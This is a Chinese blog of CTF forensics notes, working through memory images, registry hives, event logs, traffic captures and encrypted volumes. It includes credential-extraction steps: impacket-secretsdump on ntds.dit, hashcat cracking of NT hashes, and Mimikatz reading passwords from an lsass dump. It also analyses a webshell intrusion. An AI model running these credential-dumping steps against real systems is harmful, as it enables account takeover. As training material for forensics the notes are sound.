【没搞懂网上好多博客说DumpIt.exe然后莫名其妙去cmdscan说看到flag的……那就是正常出题人要用的dump内存的软件啊，而且cmdscan出来的就是双击运行DumpIt.exe（无指令记录）的痕迹；还有错误的说 1992 是DumpIt.exe进程的 → 那个单纯是用户启动的资源管理器 explore.exe 进程好吧🧐】
- 也是成功没有思路了……这上哪找蛛丝马迹😡。这时候想到曾有名人名言：没思路就binwalk/foremost提取看看有没有附件 → 发现不少图片以及 README 的压缩包痕迹（？）
1 | binwalk memory.img | egrep -i "zip|gzip|bzip2|xz|7-zip|rar|tar|png|jpeg|jpg|gif|bmp|tiff|webp" |
- 用
filescan寻找一下PNG/ZIP文件，发现桌面上有一张二维码
1 | vol2 -f memory.img --profile=Win2003SP1x86 filescan | grep -Ei 'png|gif|zip' |
- 修复一下二维码，获得一串密文；但是发现并不是普通的base家族编码叠加……
1 | jfXvUoypb8p3zvmPks8kJ5Kt0vmEw0xUZyRGOicraY4= |
- 这里学了一个新思路——使用
screenshot复原桌面显示的图片（实则已经没啥用了……只能看出来之前确实打开过桌面上的flag.png以及确实是用DumpIt获得内存镜像的）
1 | vol2 -f memory.img --profile=Win2003SP1x86 screenshot -D ./screen/ |
- 实在没招了……只能导出用户进程
1992（缩小范围）然后直接foremost分离了【博客的操作】
1 | vol2 -f memory.img --profile=Win2003SP1x86 memdump -p 1992 -D ./ |
- 获得另外一张图片（显然的AES的key与iv）……所以这张图片哪来的啊喂？？
1 | key: Th1s_1s_K3y00000 |
- 解密获得flag 算了……先记住这个操作手法吧😅
1 | flag{F0uNd_s0m3th1ng_1n_M3mory} |
MemProcFS使用样例
使用说明
| 参数 | 说明 |
|---|---|
-device |
选择内存获取设备或转储文件。例如：PMEM、FPGA、<内存转储文件路径>。 -f 和 -z 等价于 -device。 |
-remote |
连接到运行 LeechAgent 的远程主机。详见 LeechCore 文档。 |
-remotefs |
连接到远程 LeechAgent 所托管的 MemProcFS。 |
-v / -vv / -vvv |
不同等级的详细输出模式（普通、非常详细、超级详细）。 |
-version |
显示版本信息。 |
-logfile |
指定日志文件路径。 |
-loglevel |
指定日志的详细级别，使用逗号分隔。例：-loglevel 4,f:5,f:VMM:6 |
-max |
指定最大内存地址范围（默认自动检测）。范围：0x0 到 0xffffffffffffffff。 |
-memmap-str |
直接在参数中指定物理内存映射。 |
-memmap |
指定内存映射文件或使用 auto 自动识别。例：-memmap auto 或 -memmap c:\temp\map.txt |
-pagefile0..9 |
指定页面文件或交换文件。例：-pagefile0 pagefile.sys，-pagefile1 swapfile.sys |
-pythonexec |
启动时在 memprocfs 上下文中执行 Python 脚本。例：-pythonexec C:\Temp\my_script.py |
-pythonpath |
指定 Python3 安装目录（含 python.dll）。例：-pythonpath "C:\Program Files\Python37" |
-disable-python |
禁用 Python 插件子系统加载。 |
-disable-symbolserver |
禁用 Microsoft 符号服务器集成。 |
-disable-symbols |
禁用 .pdb 符号文件的查找。 |
-disable-infodb |
禁用 infoDB 以及相关符号查找功能。 |
-mount |
指定挂载驱动器（默认：M 盘）。例：-mount Q |
-norefresh |
禁止自动缓存 / 进程刷新（不推荐）。适用于 FPGA/live memory。 |
-waitinitialize |
等待 .pdb 符号系统完全初始化后再挂载文件系统。 |
-userinteract |
允许控制台交互（如选择设备选项）。默认禁用。可与 -forensic 联用。 |
-vm |
启用虚拟机（VM）解析。 |
-vm-basic |
启用仅解析物理内存的虚拟机模式。 |
-vm-nested |
支持嵌套虚拟机解析。 |
-license-accept-elastic-license-2-0 |
接受 Elastic License 2.0，用于启用内置 Yara 规则。 |
-forensic-process-skip |
指定不扫描的进程名列表（用逗号分隔）。 |
-forensic-yara-rules |
指定用于法医扫描的 Yara 规则文件（源文件或编译文件）。例：-forensic-yara-rules "C:\Temp\rules.yar" |
-forensic |
启动后立即进行内存法医扫描（非实时内存适用）。可选值如下： - 0：禁用（默认） - 1：使用内存中的 sqlite 数据库文件，全在RAM - 2：使用临时 sqlite文件，退出后删除 - 3：使用临时 sqlite文件，退出后保留 - 4：使用静态数据库（vmm.sqlite3）例：-forensic 4 |
1 | # 常见使用的指令：取证静态内存文件 |
- 默认加载完毕之后电脑会出现一个M盘用于取证
| 路径 | 主要内容 | CTF 取证作用 |
|---|---|---|
pid\ |
按 PID 组织的进程视图（每个进程一个目录，含模块、句柄、内存段/映射、线程等） | 找可疑进程（nc/浏览器/恶意样本）、导出进程内存/模块、扫字符串/YARA、看句柄定位打开过的文件/注册表 |
name\ |
按进程名组织的同一套进程视图（和 pid\ 内容等价，只是索引方式不同） |
已知目标进程名时更快进（notepad.exe、explorer.exe、lsass.exe…） |
registry\ |
注册表树视图（从内存解析出的 hives/keys/values） | 直接翻关键键：自动启动、最近打开(MRU)、RDP/USB痕迹、浏览器痕迹、账号/主机名等线索 |
sys\ |
系统级汇总信息（例如 sysinfo、内核/驱动/时间等摘要，视版本） |
快速确认 OS/build/架构/启动时间；看是否有异常驱动/系统层线索；写报告的“环境指纹” |
forensic\ |
法医扫描/聚合结果输出（通常依赖 -forensic 模式生成 sqlite/报告） |
一锅端捞线索：浏览器/网络/凭据/痕迹汇总（有就很省时间），适合快速找 flag 相关痕迹 |
vm\ |
虚拟内存/物理内存层相关视图（偏底层：地址空间、映射、原始页/段，版本不同命名会变） | 需要“按地址/按映射”精确导出内存片段、做低层验证（比直接搜文件更硬核） |
conf\ |
配置与运行信息（插件、参数、解析设置等，偏工具自身） | 一般不拿来找 flag；主要用于确认你启用了哪些解析/forensic 模式，排错 |
py\ |
Python/插件接口相关目录（脚本、扩展点或工具自带脚本） | 高级玩法：写脚本批量导出/批量扫描；普通 CTF 可忽略 |
misc\ |
杂项/中间产物/缓存（不同版本内容差异较大） | 偶尔捡漏：工具自动生成的临时输出、额外解析结果；但不作为主线入口 |
yara\（若启用/存在） |
YARA 扫描输出/命中结果 | 快速查壳/家族特征/恶意片段；适合做 IOC 证据 |
PS：M: 不是“真正的 Windows 本地卷”，而是 Dokan/MemProcFS 提供的虚拟文件系统（常常还带网络提供者语义）。WSL 的路径映射机制只会把它认作“可翻译的 Win32 路径”时才会自动映射到
/mnt/<drive>，而这种虚拟盘符经常 不满足 WSL 的驱动器翻译条件
下面几个内容都来源与一个题目：ctfshow_DASBCTF_easy_mem
参考博客：DASBCTF官方WP
查看计算机系统相关信息
请问这台电脑的该内存镜像被采集时计算机名，该内存镜像ip地址，该内存镜像系统build版本号(5位)
-
M:\sys\sysinfo\sysinfo.txt是 MemProcFS 自动生成的一份系统概览/指纹文本，它把内存镜像里能确定的关键系统信息（类似 profile/系统信息面板）汇总成一个文件 -
它不是原系统里真实存在的某个磁盘文件，而是 MemProcFS 的虚拟导出视图（根据内存里的结构实时拼出来的）
-
要获取的三个内容：
计算机名、ip、build在文件M:\sys\sysinfo\sysinfo.txt里
1 | ctfshow{ZHUYUN_S_PC_192.168.26.129_22621} |
查看应用/浏览器相关信息
请问该电脑获取内存镜像是登录的QQ号码，看过的10字短剧名称，看过的bilibili视频BV号
- 登录QQ号会在本地创建一个QQ号相关的文件夹（涉及到文件系统的改变），可以直接看
NTFS timeline，搜索与QQ/tencent相关的字符串 M:\forensic\csv\timeline_ntfs.csv就是一份 NTFS 文件活动时间线导出表：把 MemProcFS 能从证据中解析到的 NTFS 文件/目录记录，按时间整理成 CSV
- B 站视频一般是在浏览器里，直接去看
M:\forensic\csv\timeline_web.csv即可【这里发现 Excel 直接打开.csv文件有时候会因为解码问题出现中文乱码；因此可以通过Excel → 数据 → 自文本/CSV（From Text/CSV） → 手动选择UTF-8解码 → 加载（Load）来解决】
- 加载出没有乱码的文本就能看到浏览器记录了（其实直接VScode打开也没问题，还能直接调整编码格式）
1 | ctfshow{54297198_穿成魔尊后我一心求死_BV1ZU4y1G7AP} |
查看恶意软件相关信息
有一个程序疑似上传系统浏览器cookie；请问该程序名称，该程序隐藏在哪个软件目录下(小写)，该程序使用的版权信息中对应的域名
-
可以直接去看工具生成的 Forensic 目录下的
findevil目录：用于自动检测可疑 / 恶意行为，例如隐藏进程、被注入的线程、挂钩的系统调用等【CSV文件在M:\forensic\csv\findevil.csv】 -
字段中可能出现的字符含义：
-
EvPROC：进程层异常（隐藏、伪装、注入、提权等）
- NO_IMAGE：进程对象还在，但找不到对应 EXE 映像路径。常见于：路径被抹/已删除/反取证；也可能是解析不全。
- IMAGE_IN_HEAP：进程的“映像”像是从堆里跑起来的，不是正常 PE 映射方式。典型指向：手动加载（reflective/manual map）/注入壳。
- IMAGE_IN_UNKNOWN：映像基址落在不符合常规的区域（不在正常映像区）
- NO_HANDLE_TABLE：进程缺句柄表。可能是 DKOM/隐藏进程，也可能是残留对象
- NO_THREAD：进程对象存在但没线程；可能是僵尸/残留，也可能是被人为处理过
- PPID_UNKNOWN：父进程关系异常（伪造 PPID、父进程结束、链断了）。常用于伪装看起来像系统进程启动的。
- FROM_UNKNOWN_IMAGE：进程创建链指向未知模块/异常模块。
- TOK_PRIVS_HIGH：Token 权限异常高（提权后常见）。要结合用户、完整性级别、特权列表验证。
- MANUAL_MAPPING：明确提示“手动映像映射”（内存注入最常见手法之一）。
-
EvTHRD：线程层异常（远程线程、起始地址异常、隐藏线程等）
- THREAD_REMOTE：远程线程（
CreateRemoteThread等典型注入）。 - THREAD_APC：线程与 APC 注入特征相关（不等价于必然恶意，但很可疑）。
- THREAD_UNKNOWN_START：线程起始地址不在任何已知模块内（典型：shellcode）。
- THREAD_HIDDEN：线程被隐藏（DKOM/DirectKernelObjectHijack 之类）。
- THREAD_NO_START_MODULE：无法把起始地址映射到模块（信息缺失或故意规避）。
- THREAD_REMOTE：远程线程（
-
EvAPC：APC 注入相关异常（往线程 APC 队列塞代码/DLL）
- APC_QUEUE_USER / APC_QUEUE_KERNEL：往用户/内核 APC 队列塞任务。用户 APC 常见于注入；内核 APC 更敏感。
- APC_SUSPICIOUS_DLL：通过 APC 方式触发 DLL 加载（常见注入链）。
- APC_NO_MODULE：APC 回调地址不落在合法模块里——强烈指向 shellcode。
-
EvAV：钩子/反杀软痕迹（IAT/Inline/内核钩子、syscall patch）
- INLINE_HOOK：函数开头被改（跳到别处），常见于 userland hooking。
- IAT_HOOK：导入表被改，调用被重定向。
- KERNEL_HOOK：内核函数被挂钩（更高危）。
- SYSENTER_PATCH：sysenter/syscall 路径被改（常见 rootkit/内核防护绕过）。
- DEBUGPORT_HOOK：DebugPort 异常（反调试/规避分析）。
-
EvKRNL：内核/Rootkit 级异常（隐藏驱动、SSDT/IRP hook、DKOM）
- DRIVER_HIDDEN：驱动不在正常链表里（典型隐藏驱动）。
- SSDT_HOOKED：系统调用表项被替换（非常经典的 rootkit 手法）。
- IRP_HOOKED：驱动 IRP 分发被改（拦截文件/注册表/网络请求）。
- DKOM：直接改内核对象（隐藏进程/线程/驱动的常用大锤）。
-
-
这里表格可以先按照进程名排序（PID也行）：
- ctrl + A 全选 → 排序和筛选 → 自定义排序
- 排列依据选择进程名（B列）+ 升序
-
PE_INJECT和PE_PATCHED这些标识通常表示该程序可能注入了代码或对原始代码进行了修改，可能是恶意行为的迹象；同时又没有路径，推测为恶意文件做了隐藏。这可能意味着该程序正在使用某种技术来隐藏它的实际运行模块
| 标签 | 含义 |
|---|---|
PE_INJECT |
检测到“注入的 PE 映像”。常见含义：某进程内存里出现了像 DLL/EXE 的 PE 结构，但它不是正常 LoadLibrary 映射出来的，可能是 reflective injection / manual map 之类。 |
THREAD |
表示这条告警对象是线程级别异常（不是进程整体）。具体异常点通常要看同一行其它列：线程 TID、起始地址、所属 PID、原因细分等。 |
PE_PATCHED |
PE 被“打补丁/篡改”。常见是代码段被改（inline patch/hook）、入口点被改、导入表/节区校验不一致等。也可能是安全软件/注入器改的，但在 CTF 里通常指向 hook 或解密 stub。 |
PRIVATE_RWX |
进程里存在 Private 内存页 且权限是 R/W/X（可读可写可执行）。这在正常软件里比较少见（不是绝对没有），在恶意注入里非常常见：shellcode、解密后 payload、JIT/自修改代码、注入缓冲区。重复多条通常代表有多个 RWX 区段或多个线程/区域命中。 |
PEB_BAD_LDR |
PEB（Process Environment Block，进程环境块）里的 Ldr（加载器）链表异常。通俗讲：进程的模块加载列表（InLoadOrderModuleList 等）不正常/被破坏/被隐藏。常见于 模块隐藏、反取证、DKOM/手动映射绕过正常加载器记录。 |
- 直接去
CSV里看M:\forensic\csv\timeline_process.csv进程时间线信息。查找可疑的程序Hmohgnsyc.exe看进程相关信息可以看到：这个程序隐藏在ToDesk目录下【隐藏的软件目录名称为todesk（flag要求是小写）】
- 在目录
M:\forensic\files\ROOT\Users\h\AppData\Roaming\ToDesk\dev下可以看到这个程序的一个ffffe3015ec758c0-crt.dll和一个ffffe301620c80b0-Hmohgnsyc.exe
- 右键
Hmohgnsyc.exe看属性界面（版权信息）可以看对应的域名信息http://www.jieba.net【提交时去掉http协议头与低级域名www】
1 | ctfshow{Hmohgnsyc.exe_todesk_jieba.net} |
SAM注册表 （RegRipper 3.0 & RegistryExplorer）
题目来源&参考博客（没找到官方的附件网址，只找到这个博客提供了百度网盘的留存）：
Junior.Crypt.2024-Admin rights
1 | Help me understand which ACTIVE account has administrator rights Account of the form user_xxxx |
【这里下载了搜集到的三个工具：RegRipper/RegistryExplorer/Windows Registry Recovery（博客里的）】
SAM（Security Account Manager）在 Windows 里是本地账户与本地组数据库，在注册表里表现为一个 hive：
HKLM\SAM（在线系统里默认强权限，普通用户看不到）。离线取证时对应文件通常是：
C:\Windows\System32\config\SAM（主 hive）- 还会配套看到
SYSTEM（里面有用于解密 SAM 某些敏感字段的系统密钥信息——取证关联用，别把它理解成“另一个账户库”）
SAM 里主要路径 存储数据的含义 SAM\Domains\Account\Users\Names\<username>用户名 → RID 的映射（用来把 user_xxxx对应到具体用户记录/ SID 尾号）SAM\Domains\Account\Users\<RID(16进制)>该用户的主记录容器（账户信息都挂在这里） SAM\Domains\Account\Users\<RID>\F用户状态/策略类元信息（是否禁用、密码相关标志、部分时间信息等；通常靠工具解析） SAM\Domains\Account\Users\<RID>\V用户资料字段集合（用户名/全名/注释等的结构化存放，以及部分敏感字段的加密块；通常靠工具解析） SAM\Domains\Builtin\Aliases\00000220Administrators 组（本地管理员组本体；用它判断“谁是管理员”） SAM\Domains\Builtin\Aliases\00000220\CAdministrators 组成员列表（成员 SID 列表/可解析出哪些用户在管理员组）
- 拿到的是一个Windows 注册表文件（Registry Hive），而且是 Windows NT/2000 及以上版本使用的格式
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
- 使用
RegRipper示例
- 然后根据要求找管理员权限用户：在输出文件中搜索
Admin字符串即可
1 | grodno{user_7565} |
- 使用
RegistryExplorer示例
直接在 User 里面找 Administrator 分组的用户（俄语是Администратор）
【Администраторы →管理员 Пользователи → 用户】
ntds.dit 域控文件（Impacket-Secretsdump）
题目来源&参考博客（没找到官方的附件网址，只找到这个博客提供了百度网盘的留存）：
Junior.Crypt.2024-Series SAM
1 | Your task is to extract the password of the Tilen2000 user. |
- 给的是一个 dit 域控文件以及 SYSTEM
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
| 文件 | 是什么 | 包含信息 | 取证作用 |
|---|---|---|---|
ntds.dit |
Active Directory（AD）域控的目录数据库（ESE 数据库格式） | 域里的对象数据：域用户/组/计算机、以及最重要的 口令哈希（NTLM 等，存的是哈希不是明文） | 从域控镜像/备份里提取域账号哈希做审计/验证（比如 secretsdump/DSInternals 之类工具会用） |
SYSTEM |
注册表 SYSTEM hive（离线注册表文件） | 系统启动配置、服务驱动、硬件配置、网络配置；以及一个关键点：BootKey/SYSKEY 相关材料 | 在“提取哈希/解密敏感数据”时当 解密钥匙的一部分：比如解密 SAM 里的本地账户哈希，或配合 ntds.dit 解出 AD 哈希 |
-
ntds.dit里存着域账号的加密过的密码哈希；SYSTEM里存着把这些哈希解出来所需的系统启动密钥材料（BootKey/SYSKEY） -
Kali Linux 中下载好工具，
impacket-secretsdump
1 | # Kali自带的impacket是依赖系统python的；这里我在conda环境里又装了一个 |
- 使用
impacket-secretsdump提取hash（用户太多了 grep 下 Tilen2000）
1 | impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL -history | grep 'Tilen2000' |
前六行为 pwdump 格式 域名\用户名:RID:<LM哈希>:<NT哈希>:::
后三行为 Kerberos 的长期密钥 → 同一个密码会派生出不同算法的key
- Windows 中的密码NT hash（也常被叫 NTLM hash 里的 NT 那一列）用的不是 MD5，而是 MD4，
hashcat使用的 -m 模式选择1000解密即可
1 | hashcat -m 1000 -a 0 c0720d115b8b326aca0d9b95f0eca86e dict/rockyou-top15000.txt -O -o result.txt |
1 | grodno{Hello123} |
远程连接日志溯源
题目来源&参考博客（没找到官方的附件网址，只找到这个博客提供了百度网盘的留存）：
1 | The user from which country connected via RDP? |
- 下载文件是一堆 Windows 日志文件，RDP 则是远程桌面协议
-
Windows 自带的事件查看器查看
Win + R→eventvwr.msc→操作(A)→打开保存的日志【这里需要有一些去哪个日志文件查找的[知识](##Windows.evtx日志)】 -
任务是 RDP 溯源，优先顺序通常是：
Microsoft-Windows-TerminalServices-RemoteConnectionManager%4Operational.evtx（抓来源 IP）- Security.evtx 里用 4624（LogonType=10）对齐确认
- IP → GeoIP → 国家
- 查询
ip 103.109.92.4IPinfo网址（火狐注册了） 【也可以用下面的】
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics/RDP] |
访问资源日志溯源
题目来源&参考博客（没找到官方的附件网址，只找到这个博客提供了百度网盘的留存）：
Junior.Crypt.2024-SAMBO_wrestler
1 | From what ip was access to the network folder obtained? |
-
拿到的附件是同上的一堆
.evtx文件，不过这次要寻找的是 哪个来源 IP 成功访问了我们这台机器上的网络共享文件夹 。 -
security.evtx记录了登录事件、对象访问、进程追踪、特权调用、帐号管理、策略变更事件
查询思路
-
Security.evtx（首选）
看事件 5140 / 5145（最常直接带来源 IP）-
5140：共享被访问（通常包含
Share Name+Source Address） -
5145：对共享/文件的访问检查（包含
Share Name/Relative Target Name+Source Address） -
同一时间段再用 4624（LogonType=3） 佐证网络登录。
-
-
Microsoft-Windows-SMBServer%4Audit.evtx（次选/补充）
如果系统开启了 SMB 审计，这里会有更偏 SMB 视角的访问记录，用来补时间线/交叉验证。
实际这里只有一个 4624 时间，就这一个用户 → 因为有 1102（Log clear）在 03:03:23 Security 日志被清空 → 那就只能是这个用户了
03:03:23 — 1102：Security 日志被清空
03:04:37 — 4624：一次成功登录
03:04:37 — 4672：同一次登录获得特权（Special Logon）
03:05:01 — 4634：注销
1 | grodno{103.109.92.5} |
PowerShell特性（UTF-16）
题目来源：Bugku_n00bzCTF 2022-Stager
1 | Description: We found a strange file on our server at n00bzunit3d, it seems to be some sort of empire stager, can you tell me where it's staging the next payload? |
官方题解与仓库：n00bzCTF 2022
题目名称？
Stager 就是“分阶段载荷”里的第一阶段小程序/小脚本：它自己通常不干“最终目的”（比如真正的解密、持久化、数据收集），而是负责把后续更大的 payload 拉起来
- 大结构是一个HTML 页面里嵌了 JavaScript ，实现通过 ActiveX 直接调用 Windows 组件，把一条 **PowerShell（Base64 编码的命令）**跑起来，然后把窗口关掉来隐形。【
ActiveXObject('WScript.Shell')是 Windows Script Host 的 COM 对象（老 IE / HTA 环境常见），可以能直接跑程序/命令；.Run(c)把字符串c当成命令执行。】
1 | <html> |
- 后面这一段base64编码内容直接解码会发现每个字符之间穿插着红色的
NULL：这是因为解出来的内容不是UTF-8纯文本；正常是UTF-8的1字节编码英文字母/符号，而这里用的是2字节进行的编码，因此每个字符多出一个字节的0x00显示为NULL
UTF-8与UTF-16都是字符编码方式；UTF-8以8bit（1字节）为单位，每个字符占据1~4字节；UTF-16以16bit（2字节）为单位，大部分字符占据2字节，少数4字节，存储时有字节序问题，常见UTF-16LE（小端，Windows 常见）。
一般文件/网络文本：UTF-8（最通用）
Windows 某些内部文本、注册表导出、PowerShell/某些程序生成的文本：常见 UTF-16LE
【这里使用UTF-16编码也符合Windows里面调用powershell的编码习惯】
- 这里base64解码出来了一坨东西；应该是故意混淆过的指令，让人看不懂但是powershell能看懂。不过至少可以确定一个分号大概率表示一条语句，可以用notepad++替换加上换行符方便看一点
- 这里可以直接喂给AI，或者手动一条条语句让powershell解码看看（实则是看最有可能包含目标域名的那个语句）
1 | (web)PS E:\Forensics> ("{2}{0}{4}{7}{5}{1}{6}{3}{8}" -f 'EtSe','N','SYSTemn','AnAGe','rVIc','oI','TM','eP','r') |
- 对输出的内容再次base64解码获得域名
1 | n00bz{wiki.n00bzunit3d.xyz} |
.dmp 错误转储文件（Mimikatz）
参考文档：BUU MISC刷题记录 [安洵杯 2019]Attack - 云千 - 博客园
[安洵杯 2019]Attack （详细解析）-CSDN博客
BUUCTF [安洵杯 2019]Attack 1-腾讯云开发者社区-腾讯云
前言：
博客里说直接foremost提取流量文件；如果有能提取的文件的话就直接提取了。
个人感觉没思路的话可以用；直接用感觉思路上没乐趣了……
（也作为技巧记下来🧐）
- 协议统计里看到大量 HTTP 协议——那还说啥了，干他就完了
- 先看了一下有没有异常的请求：发现前面显示目录扫描；然后过滤
POST请求后面有上传了一句话木马的痕迹（7375那一次也上传了一句话木马，但是格式不对所以失败了）
1 | http.request && http.request.method == POST |
- 这样的话就单过滤HTTP协议在
7390及其往后的记录，仔细看一下；发现7401就是有明显命令执行特征的恶意请求 → 从恶意参数hack开始看
1 | hack在base64解码后执行了一个名为 0x3eec7ed93b3b9 的参数 |
1 | ROT13解码之后回显就是（其实就是ls的执行回显） |
- 这里往后看一下流，发现在
7427时发现多了一个s3cret.zip文件；重要线索
1 | Directory of C:\phpstudy_pro\WWW |
- 下一步就是在这附近找找记录有没有传输这个文件的流量；果然在下一个流找到了明显的zip文件
确认一下……看了下这个 PHP 代码是读取指定路径的文件的；读取文件参数 0x75efac6bee71a 正好就是那个文件的路径 C:/phpstudy_pro/WWW/s3cret.zip ；遂导出这个zip文件（直接复制二进制）
- 打开发现这个文件是加密的，需要
administrator的密码；下一步就是去找密码了
1 | 注释内容：这可是administrator的秘密，怎么能随便给人看呢？ |
- 这里正常思路就是继续往下看；又看到一堆十六进制输入——估计就是直接十六进制写入新的木马了（看python代码实则就是；且新马路径是第一个参数
C:/phpstudy_pro/WWW/uploads/hhh.exe）
1 | // PHP核心代码是这里的，两个字符一组作为十六进制写入文件 |
- 后面又看到追加写入
hhh.exe内容（下一个流还是这样的一堆十六进制内容）：看来恶意文件不小 - 然后最后又确认了一下写入成功了
- 一直看到
8313看到黑客要执行的操作了：dump下来了lsass.dmp→ 准备盗取靶机的管理员密码了 → 结合前面压缩包需要administrator的密码，显然就是分析lsass.dmp获得密码了
1 | # 恶意请求执行的是这个 |
【原来写入的 hhh.exe 是用来dump文件的】
-
都dump下来了肯定后面有请求下载的记录了
-
看一下不是404的响应；发现明显有一个显示为流量包的记录
tcpdump.pcap；看对应的请求URLhttp://192.168.206.131/uploads/lsass.dmp→ 发现这实际上是一个下载lsass.dmp文件的请求 → 就是我们要找的
1 | http.response && http.response.code != 404 |
PS： lsass.dmp 文件 → .dmp 文件是windows系统中的错误转储文件，当Windows发生错误蓝屏的时候，系统将当前内存（含虚拟内存）中的数据直接写到文件中去，方便定位故障原因；lsass.dmp 里面包含主机用户密码信息】
- 在文件 → 导出对象 → HTTP对象 中导出这个 DMP 内存文件
- 使用mimikatz获得该文件中administrator的密码，得到
W3lc0meToD0g3
Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！
使用mimikatz分析.dmp文件，使用管理员权限打开命令提示符，cd 进去存放mimikatz.exe文件夹中，使用mimikatz.exe（lsass.dmp文件需要和mimikatz.exe在一个文件夹下 ）
1 | # 切换盘符 |
1 | # 提升权限 |
- 获得密码
W3lc0meToD0g3
- 用这个密码解密压缩包获得flag
1 | D0g3{3466b11de8894198af3636c5bd1efce2} |
TrueCrypt 解密（VeraCrypt）
1 | 近日，警方破获了一起串通招投标案，控制了相关嫌疑人，并对所有计算机进行了现场取证，获取到了磁盘和内存镜像（fujian1，MD5值de7f245743f96721a68ca8ad3355d081）。在后期的勘验工作中，警方在公司财务的计算机磁盘镜像中提取了一个可疑文件（fujian2，MD5值e4a9669e7545647aa8921ac06421aaec）。根据抓获的其他嫌疑人供述，该财务掌握有一份其通过购买黑客服务获取到的专家名单，并且拥有非常强的加密，但公司财务拒不交代其加密方式及密码，并对以上供述表示否定，称不知道有加密的存在，更不知道专家名单的事。 |
- 结合题目描述，
fujian1为内存镜像；看配置文件是Win7SP1x64
- 查看有哪些进程；发现有
TrueCrypt.exe的存在，推测可能使用了TrueCrypt加密容器
1 | vol2 -f fujian1 --profile=Win7SP1x64 pslist |
- 同时进一步分析附件2，特征非常明显，基本无法看出文件结构，几乎没有可以提取的字符串，且大小刚好为100MiB整，因此推测可能为TrueCrypt或者VeraCrypt加密容器【TrueCrypt / VeraCrypt 的文件型容器通常就是一个看起来毫无结构的随机数据文件，且创建时常被设置成一个整的容量(100MB/500MB/1GB)】
结合内存 fujian1 存在的TrueCrypt进程分析，推测为TrueCrypt加密容器，因此继续分析内存镜像找密码
- 用
truecrypt相关插件truecryptsummary捞 TrueCrypt 驱动/加密卷在内存中的关键结构：
1 | vol2 -f fujian1 --profile=Win7SP1x64 truecryptsummary |
【这里也可用 truecryptpassphrase 直接提取密码】
1 | vol2 -f fujian1 --profile=Win7SP1x64 truecryptpassphrase |
获得密码 CZYWS_s4zyd_User （长度16字节：划重点）
- 使用这个密码来用VeraCrypt解密加密容器
fujian2（注意勾选TrueCrypt模式；1.25.9为最后一个支持该模式的版本，这里特意回退到了这个版本）【TrueCrypt是给Win7用的，说是Win10/11安装会有驱动问题】
- 发现一个名为
ECB的文件，但是内容是乱码；
- 根据常识可知，ECB 为 AES 加密的一种工作模式：尝试进行AES解密，但是密码是什么呢？通过回顾解题过程，能发现找到了一个密码，即
CZYWS_s4zyd_User，长度刚好为 16 字节，即 128bit，符合 AES 128 位密钥的特征，尝试解密【脑洞大开】
- 获得提示
Do you know how to decrypt a hidden volume by this decrypted file?→您知道如何通过这个解密文件解密隐藏卷吗？→ 关键词为隐藏卷→ 怀疑使用了VeraCrypt的隐藏卷功能，因此尝试打开该加密卷的隐藏加密卷【就是前面见过的不同密码开启不同加密卷】；尝试使用解密出来的字符串作为密码
结果发现不是这个密码
- 重新往回看，发现提到了
by this decrypted file，怀疑是使用了密钥文件来作为解密密钥，因此将解密后的文件下载并尝试作为密钥文件来解密
- 成功挂载获得专家名单
- 计算文件md5值，获得flag【实战中xlsx文件数据说是随机生成的】
1 | md5sum 专家名单.xlsx |
Bitlocker解密（AIM & Passware & EFDD）
题目来源：Buu_DAS2022.7_ez_forenisc
参考博客：DASCTF2022.07赋能赛复现 - CPYQY_orz - 博客园
DASCTF2022.07赋能赛 ez_forensics复现 - 大暄子 - 博客园
-
拿到一个磁盘镜像一个内存镜像；个人感觉磁盘镜像更直观一点想先分析磁盘镜像
-
直接
Arsenal-Image-Mounter挂载磁盘镜像发现是Bitlocker加密过的；要去内存文件里找找
- 日常内存查看流程发现有
cmd.exe而且cmdscan发现出现提示screenshot
- 看到提示截屏会想到
Desktop桌面文件/screenshot窗口界面图形图片
1 | vol2 -f pc.raw --profile=Win7SP1x64 filescan | grep Desktop |
- 寻找并提取
the3cret文件；得到一个密文文件
1 | vol2 -f pc.raw --profile=Win7SP1x64 filescan | grep 'thes3cret' |
1 | thes3cret内容： |
此密文以 U2FsdGVkX1(Salted_) 开头，有可能是AES、DES、RC4、Rabbit、Triple DES（3DES）加密，都是需要key的。这里出现过一次。下面要去找 key 了
【没啥思路分析一下】
-
内存镜像密码提取再介绍一个工具 →
PasswareKitForensic（俗称PTF），得到用户admin的密码550f37c7748e【实则和mimikatz没啥区别】（我看有博客说这一步能获得下面Bitlocker解密用的48位口令 → 我尝试的并不行？）
PS → 实则就是这个
【但是这个密码不是key；也不是Bitlocker解密的密码】
- 又想起了工具 **Elcomsoft Forensic Disk Decryptor（EFDD）**可以直接提取Bitlocker密钥口令
（1）先说一下从内存提取密钥文件（还不是口令）的过程【实则有点鸡肋，直接看（2）吧】
（2）直接解密加密卷获得解密口令**【！！需要用管理员权限启动EFDD！！】**
1 | 060841-363737-551397-247489-310134-034430-598312-215853 |
- 获得口令之后可以去 AIM 解密加密卷了（更多选项的加密密钥恢复）
- 在加密卷里获得一个压缩包（里面有一个名为
ciper的图片）和一个假flag的txt；图片有LSB隐写，隐写了一个压缩包进去
- 提取出来结果是一个加密的压缩包；内存取证相关的有密码先试管理员密码
550f37c7748e；解压但是显示文件损坏 → 看来是LSB提取提取多了，要先把后面不属于zip文件的东西删掉
- 解压获得一串密码 → 这里从博客学到了另一个直觉：发现没有大于8的数字说明可能是8进制
1 | 164 150 145 40 153 145 171 40 151 163 40 63 65 70 144 141 145 142 145 146 60 142 67 144 |
- 八进制解码获得了
key→ 想起来之前还有个the3cret还要key呢……原来在这等着
1 | thes3cret内容： |
- 经典加盐的AES解码；参考之前加盐AES解密
1 | import hashlib |
1 | DASCTF{2df05d6846ea7a0ba948da44daa7dc88} |
流量包取证
大流量取证
题目来源：BuuCTF-大流量分析123
参考博客：cnblog
